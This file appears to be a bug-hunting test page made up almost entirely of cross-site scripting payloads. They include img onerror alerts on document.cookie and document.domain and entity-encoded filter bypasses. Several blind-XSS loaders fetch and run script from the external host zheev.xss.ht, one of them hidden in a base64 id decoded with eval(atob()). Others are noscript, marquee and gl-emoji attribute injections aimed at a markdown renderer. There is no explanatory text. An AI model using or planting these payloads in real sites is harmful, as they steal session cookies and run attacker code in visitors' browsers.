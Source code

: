 # -img-src-x-onerror-alert-0000000040document.domain-
&lt;img src=x onerror=alert&amp;#0000000040document.domain)>
TEST<br><br><center><font color="red">bughunt-borneo.org<br><br><img src=x onerror=alert(document.cookie)><br><br><img src=x onerror=prompt(//zheev.xss.ht)>
"><script src=https://zheev.xss.ht></script>
<script>$.getScript("//zheev.xss.ht")</script>
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//zheev.xss.ht");a.send();</script>
<img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vemhlZXYueHNzLmh0Ijtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGEpOw&#61;&#61; onerror=eval(atob(this.id))>
"><script>prompt(document.cookie)</script>
"><noscript><p title= "</noscript><img src=x onerror=alert(document.cookie)>">
"><u>XSS Vulnerability</u><marquee+onstart='alert(document.cookie)'>XSS
<pre data-sourcepos="&#34; href=&#34;x&#34;></pre>
<gl-emoji data-name='&#34;x=&#34y&#34 onload=&#34;alert(document.domain)&#34;' data-unicode-version='x'>
abc
</gl-emoji>
<pre x=&#34;">
<code></code></pre>
